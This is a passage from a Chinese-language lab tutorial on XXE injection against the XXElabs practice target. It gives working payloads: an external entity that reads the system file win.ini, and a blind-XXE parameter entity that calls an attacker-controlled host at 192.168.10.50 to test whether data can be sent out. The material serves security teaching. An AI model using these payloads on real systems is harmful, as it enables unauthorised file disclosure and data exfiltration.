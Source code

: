#### 3.1.1.1.**测试回显位置**

通过测试，能够看到在admin位置是存在回显的，而后面的password位置的1是没回显的。

![img](https://s2.loli.net/2023/03/13/XsThtfdGubkPvBR.jpg) 

#### 3.1.1.2.**构建payload**

构建payload后，也是成功的读取到了文件。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE test [

<!ENTITY name SYSTEM "file:///c://windows/win.ini">

]>

<user><username>&name;</username><password>1</password></user>
```

![img](https://s2.loli.net/2023/03/13/wfYM6aCQAsFORXL.jpg) 

## 3.2.**无回显测试**

参考：https://xz.aliyun.com/t/3357#toc-0

无回显的情况又称为blind xxe可以使用外带数据通道提取数据。而且在正常的环境下，服务器端通常都会把回显取消。因此我们解决该问题最好的办法就是使用外带的方式。

其实也就是测试是否支持DTD引用外部实体。

### 3.2.1.**无回显常规测试案例**

#### 3.2.1.1.**关闭报错及输出**

这里我们先把XXElabs靶场的输出及报错都关闭，模拟无回显情况。在账号上面添加一个error_reporting(0);，然后在下面的echo $result;前面添加一个//，即可模拟成功。

![img](https://s2.loli.net/2023/03/13/gTJvXQunIRUZrS2.jpg) 

#### 3.2.1.2.**抓包测试**

这里我们首先抓包进行测试，可以发现不在出现报错，以及原来显示的位置也不在显示。

![img](https://s2.loli.net/2023/03/13/mqPocthAv1C3UDK.jpg) 

#### 3.2.1.3.**构建payload**

这里需要在外部搭建一台vps，而这里我就直接使用虚拟机完成吧，无回显需要查看服务器的访问日志，当存在访问日志了，那么就可以证明是支持外部实体的，若不存在日志，则证明不支持外部实体，或者被WAF拦截。

payload：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY [

<!ENTITY % shit SYSTEM "http://192.168.10.50/1.txt">

%shit;

]>
```
